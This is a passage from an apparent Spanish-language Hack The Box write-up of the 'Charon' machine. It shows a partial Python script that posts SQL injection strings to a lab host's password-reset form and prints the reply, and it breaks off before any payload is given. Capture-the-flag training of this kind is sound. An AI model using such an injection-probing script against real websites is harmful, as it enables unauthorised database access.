 ![""](/assets/images/htb-charon/charon-web5.png)

Para trabajar de una forma más cómoda y poder realizar pruebas, vamos a generar un script en python que nos permita realizar las consultas que necesitemos.

```python
#!/usr/bin/python3
#coding:utf-8

import signal, sys, time, requests, re
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://10.10.10.31/cmsdata/forgot.php"

def makeRequest(sqli_data):
    try:
        post_data = {
            "email" : "%s" % sqli_data.strip()
        }
        r = requests.post(url, data=post_data)
        response = re.findall(r'h2.*',r.text)[0].split('>')[1].lstrip()
        log.info(response)
    except:
        log.failure("Ha ocurrido un error!")

if __name__ == '__main__':
```